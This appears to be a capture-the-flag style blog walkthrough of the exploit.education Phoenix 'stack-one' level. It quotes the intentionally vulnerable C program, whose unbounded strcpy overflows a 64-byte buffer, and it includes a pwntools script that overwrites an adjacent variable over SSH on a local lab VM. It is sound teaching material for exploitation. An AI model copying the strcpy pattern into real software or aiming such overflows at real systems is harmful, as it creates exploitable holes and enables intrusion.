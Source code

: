 ## Stack-one

![](https://Cyberguru1.github.io/posts/phoenix/files/st1_header.png)


### Source Code
---

```
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}

```

Let's digging the code:
---

- The main() function is the entry point of the program.

- Inside the main() function, there is a definition of a structure named locals. It contains two members: buffer, an array of characters with a size of 64, and changeme, a volatile integer.

- The printf() function is used to print the program's welcome message.

- The program checks if the number of command-line arguments (argc) is less than 2. If true, it calls errx() to display an error message and terminate the program.

- The changeme variable is initialized to 0.

- The strcpy() function copies the content of argv[1] (the second command-line argument) into locals.buffer. This is potentially unsafe since strcpy() does not perform bounds checking.

- After the strcpy() call, the program checks if changeme is equal to 0x496c5962. If true, it outputs a success message.

- If changeme is not equal to 0x496c5962, it displays a message showing the current value of changeme and the expected value.

- Finally, the program exits with a status code of 0.

This challenge is similar to Stack one, but the main goal here is to not only change the variable of the `changeme` to the overflow value but to a specific value that is `0x496c5962`, so we use the pwntools module to write a script that could accomplish that

```

#!/usr/bin/python
## script by Hamza Saidu 
## Cyberguru
## enjoy!!!

from pwn import *


s = ssh(host='localhost', user='user', password='user', port=2222)

# crafting payload
payload = b"A" * 64

# adding the comparision variable
payload += p32(0x496c5962)

p = s.run(f'/opt/phoenix/amd64/stack-one {payload.decode()}')

# p.sendline(payload)

print(p.recvall().decode())

```

Explanation of the code:
---

```
from pwn import *
```
- The pwn library is imported, which provides functions for binary exploitation and interaction with remote services.

```
s = ssh(host='localhost', user='user', password='user', port=2222)
```
- An SSH connection is established to a server running on localhost with the username "user," password "user," and port 2222.

```
# crafting payload
payload = b"A" * 64
```
- The payload is crafted as a byte string consisting of 64 'A' characters.

```
# adding the comparision variable
payload += p32(0x496c5962)
```
- The comparison variable (0x496c5962) is appended to the payload using p32() to pack it into a little-endian 32-bit format.

```
p = s.run(f'/opt/phoenix/amd64/stack-one {payload.decode()}')
```
- The script runs the command /opt/phoenix/amd64/stack-one on the remote server, passing the crafted payload as a command-line argument. The decode() function is used to convert the payload from bytes to a string.

```
print(p.recvall().decode())
```
- The script receives and prints the output of the command executed on the remote server.

And finally running the script we have:

![](https://Cyberguru1.github.io/posts/phoenix/files/st1_result.png)

